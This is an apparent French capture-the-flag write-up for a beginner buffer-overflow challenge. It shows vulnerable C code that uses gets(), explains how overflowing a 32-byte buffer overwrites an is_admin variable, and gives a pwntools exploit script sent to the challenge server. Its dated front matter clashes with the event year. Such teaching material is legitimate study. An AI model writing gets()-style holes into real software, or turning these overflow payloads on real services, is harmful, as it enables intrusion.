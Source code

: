 ```yaml
---
title: "PwnMe Junior 2025 - Overflowme"
date: 2024-04-14
tags: ["pwn", "buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["pwnme-junior"]
---
```


# Write-up: Overflowme - PwnMe Junior 2025

## Description

Overflowme est un challenge de type "buffer overflow" classique, parfait pour s'initier aux techniques d'exploitation basiques.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui demande un nom d'utilisateur, puis vérifie si l'utilisateur est "admin". Si ce n'est pas le cas, il affiche un message d'erreur.

Voici un extrait du code source :

```c
#include <stdio.h>
#include <string.h>

int main() {
    char username[32];
    int is_admin = 0;
    
    printf("Username: ");
    gets(username);  // Vulnérabilité: utilisation de gets()
    
    if (is_admin) {
        printf("Welcome, admin! Here's your flag: PwnMe{buffer_0verflow_1s_e4sy}\n");
    } else {
        printf("Hello, %s! You are not admin.\n", username);
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité se situe dans l'utilisation de la fonction `gets()`, qui lit l'entrée utilisateur sans vérifier la taille du buffer. Cela permet d'écrire au-delà des 32 caractères alloués à `username` et donc de modifier la valeur de `is_admin`.

## Exploitation

Pour exploiter cette vulnérabilité, il suffit d'envoyer 32 caractères pour remplir le buffer `username`, puis 4 ou 8 octets supplémentaires (selon l'architecture) pour écraser la valeur de `is_admin` avec une valeur non nulle.

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1337)

# Construction du payload: 32 'A' pour remplir le buffer + "\x01\x00\x00\x00" pour écraser is_admin
payload = b"A" * 32 + p32(1)

# Envoi du payload
conn.sendlineafter(b"Username: ", payload)

# Réception et affichage du flag
print(conn.recvall().decode())
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{buffer_0verflow_1s_e4sy}` 